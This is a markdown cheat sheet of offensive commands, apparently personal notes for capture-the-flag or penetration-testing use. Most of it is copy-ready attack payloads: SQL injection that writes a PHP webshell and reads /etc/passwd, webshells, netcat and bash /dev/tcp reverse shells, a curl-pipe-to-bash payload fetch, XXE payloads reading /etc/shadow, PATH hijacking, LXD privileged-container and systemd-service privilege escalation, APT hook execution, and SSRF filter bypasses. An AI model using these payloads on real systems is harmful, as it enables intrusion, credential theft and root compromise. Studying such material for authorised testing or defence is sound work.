 Commands for exploits
---

## SQL Injection

```
Finding out number of columns
---
1' order by <n>;#


Loading files
---
1' union select 1,2, load_file('/etc/passwd');#


Writing webshell
---
1' union select '<?php SYSTEM($_REQUEST[\"cmd\"]) ?>' INTO OUTFILE '/var/www/html/shell.php';# 
```

## Jenkins RCE

Go "Mangage Jenkins" -> "Script Console"

```
def proc = "cat root/flag.txt".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

## WEBSHELLS

Upload these on the server

```
php
---
<?php echo system($_REQUEST['cmd']);?>

shell stabilization
---
python3 -c "import pty;pty.spawn('/bin/bash');"

```

## NC REVERSE SHELLS

General nc commands for reverse shells

```
nc listen on attacker
---
nc -lnvp <port>


nc commands on victim (URL encode pls)
---
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <addr> <port> >/tmp/f
rm -f /tmp/p; mknod /tmp/p p && nc <addr> <port> 0/tmp/p
bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1' <--best


curl bash rev.sh
---
attacker: echo "bash -c 'bash -i >& /dev/tcp/<addr>/<port> 0>&1'" > rev.sh 
victime:  curl <host>:<port>/rev.sh | bash
```


## XML ATTACKS

```
LFI
---
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ac SYSTEM "file:///etc/shadow"> ]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>

reading php files
---
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php">]>
                <bugreport>
                <title>&ac;</title>
                <cwe>a</cwe>
                <cvss>a</cvss>
                <reward>a</reward>
                </bugreport>
```

## PYTHON ATTACKS

```
eval
---
you can chain eval commands with a comma

eval("25+1,print('hello!')"

os.system
---
inject commands with $()

$(ls)
```

## ENV BINARY INJECTION

```
create our own binary, and prepend to PATH
scripts will now look for our binary and execute it
---
echo "commands" > /home/user/binary_name

export PATH=/home/user:$PATH
```

## Website enumeration

- using burpsuite
- go to the website using the proxy
- go the HTTP traffic
- add the request to scope

## LXC

```
1. get the image and build it
---
https://github.com/saghul/lxd-alpine-builder

2. bring the image over to the victim
---
python3 -m http.server

3.  import the image
---
lxc image import ./alpine-v3.13-x86_64-20210506_2203.tar.gz --alias privesc

4. mount the image with privileges, and run it
---
lxc init privesc privcontainer -c security.privileged=true
lxc config device add privcontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start privcontainer
lxc exec privcontainer /bin/sh

```

## BAD SERVICE

```
/dev/shm/root.service
---
[Unit]
Description=pwned

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

[Install]
WantedBy=multi-user.target
---


systemctl enable /dev/shm/root.service
systemctl start root.service
```

## APT run comamnds

```
run commands after apt update
---
$ echo "APT::Update::Pre-Invoke {'whoami'};" > 00command
$ mv 00command /etc/apt/apt.conf.d/00command
```


## SSRF

```
https://www.neuralegion.com/blog/ssrf-server-side-request-forgery/#ssrf-bypass


http://0177.0.0.1/ --> (127.0.0.1)
http://2130706433/ --> (127.0.0.1)
http://[::]/
http://0000::1:80/
http://127.1/
http://127.0.1/
http://0/

Play around with caps
```

## JWT

https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens

jku spoofing with https://mkjwk.org/
